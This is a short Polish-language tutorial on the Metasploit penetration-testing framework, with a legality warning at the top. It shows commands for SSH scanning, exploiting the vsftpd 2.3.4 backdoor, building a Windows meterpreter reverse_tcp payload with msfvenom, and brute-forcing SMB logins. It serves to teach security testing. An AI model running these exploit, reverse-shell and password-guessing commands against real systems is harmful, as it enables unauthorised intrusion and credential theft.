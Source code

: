 # Metasploit

Metasploit to jeden z najpopularniejszych frameworków do testowania penetracyjnego. Został stworzony w celu odkrywania, eksploatowania i walidowania luk bezpieczeństwa. Wyposażony jest w setki gotowych eksploitów i różnorodne narzędzia, które pozwalają na kompleksową ocenę bezpieczeństwa systemów i sieci.

{% hint style="warning" %}
Korzystanie z Metasploit bez odpowiednich uprawnień jest nielegalne i nieetyczne. Pamiętaj, że narzędzia te są stworzone w celu poprawy bezpieczeństwa, a nie jego łamania.
{% endhint %}

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań narzędzia Metasploit.

### Skanowanie

Metasploit umożliwia skanowanie systemów i sieci w poszukiwaniu potencjalnych luk. Na przykład można zeskanować system za pomocą modułu *auxiliary/scanner*:

```bash
msf > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/ssh/ssh_version) > run
```

### Eksploatacja

Gdy luka zostanie znaleziona, Metasploit umożliwia jej eksploatację. Poniżej pokazujemy jak eksploatować podatność w usłudze FTP za pomocą modułu *exploit*:

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.2
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

### Tworzenie payloadów

Metasploit oferuje możliwość tworzenia payloadów, które można dostarczyć do celu, aby uzyskać dostęp. Można na przykład utworzyć prosty payload dla systemu Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
```

### Przechwytywanie haseł

Metasploit ma wiele modułów do przechwytywania haseł, które mogą być użyte do zdobycia dalszych dostępów. Można użyć np. modułu *smb_login* do sprawdzenia haseł na podatnych maszynach SMB:

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/smb/smb_login) > run
```
